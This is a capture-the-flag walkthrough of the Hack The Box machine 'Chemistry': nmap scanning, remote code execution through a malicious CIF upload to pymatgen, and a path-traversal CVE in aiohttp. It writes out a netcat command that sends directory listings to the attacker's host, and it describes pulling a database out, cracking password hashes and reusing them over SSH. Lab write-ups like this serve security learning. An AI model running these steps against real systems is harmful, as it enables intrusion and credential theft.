 ### Part 1: Finding Foothold

l started scanning with nmap:

```
# Nmap 7.94SVN scan initiated Fri Oct 25 05:33:29 2024 as: nmap -sC -sV -p- -T4 -oN chemistry_nmap.txt 10.10.11.38
Warning: 10.10.11.38 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.38
Host is up (0.32s latency).
Not shown: 65141 closed tcp ports (conn-refused), 392 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b6:fc:20:ae:9d:1d:45:1d:0b:ce:d9:d0:20:f2:6f:dc (RSA)
|   256 f1:ae:1c:3e:1d:ea:55:44:6c:2f:f2:56:8d:62:3c:2b (ECDSA)
|_  256 94:42:1b:78:f2:51:87:07:3e:97:26:c9:a2:5c:0a:26 (ED25519)
5000/tcp open  upnp?
| fingerprint-strings:
|   GetRequest:
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.3 Python/3.9.5
|     Date: Fri, 25 Oct 2024 00:16:14 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 719
|     Vary: Cookie
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Chemistry - Home</title>
|     <link rel="stylesheet" href="/static/styles.css">
|     </head>
|     <body>
|     <div class="container">
|     class="title">Chemistry CIF Analyzer</h1>
|     <p>Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.</p>
|     <div class="buttons">
|     <center><a href="/login" class="btn">Login</a>
|     href="/register" class="btn">Register</a></center>
|     </div>
|     </div>
|     </body>
|   RTSPRequest:
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>

```

I can see website hosted on port 5000 , opening the site provide us with login form and after registering it redirects us to `/dashboard` where we can upload '.cif' file.

i checked for vulnerability in login and register section but i couldn't find anything, so as there as file upload functionality i begin to attack it.
quickly researching 'cif exploit' leads me to:
[POC Writeup](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)

I can execute arbitrary code using this exploit.I modified POC slightly to check if it works or not:

![NMAP](/static/writeups/HTB-S-VI/chemistry/6.png)

changed "touch pwned" to "nc your-ip your-port"
and open netcat listener and upload it via upload functionality.

Attack succeds, getting reverse shell is difficult so,now lets keep changing POC slightly each time to execute different command according to our needs.

executing `("os").system ("ls -la | nc your-ip your-port")` shows different directory and files in `/home/app` directory.

going through each file i found database.db file in /home/app/instance directory which seems interesting. i downloaded it using nc and reading it using string: `string database.db`, i can see hashes and username of different user.

when i was executing above exploit i notice username `rosa` in `/home` directory which is also present in database.db.

i ran hashid to identify hash and hashcat to crack it.

![NMAP](/static/writeups/HTB-S-VI/chemistry/1.png)

so, now with password and username, i successfully ssh into machine and got user flag
:

![NMAP](/static/writeups/HTB-S-VI/chemistry/2.png)

### Part 2: Root Flag

We already got user and user flag. now, to get root flag I looked for open ports using:
ss -tunlp

![NMAP](/static/writeups/HTB-S-VI/chemistry/3.png)

I found out another website was running locally in port 8080.
so, i forwarded port using ssh:

```
ssh -L myport:boxip:boxport user@boxip
```

I found out new website:

![NMAP](/static/writeups/HTB-S-VI/chemistry/4.png)

![NMAP](/static/writeups/HTB-S-VI/chemistry/5.png)

which was using aiohttp version 3.9.1, quick research shows me it is vulnerable to local file inclusion. [Github Link](https://github.com/z3rObyte/CVE-2024-23334-PoC)
so i looked at webpage source page and found `/assets` directory and made my exploit according to it (You can do it manually too):

![NMAP](/static/writeups/HTB-S-VI/chemistry/7.png)

by running it i found root flag.

cheers!!
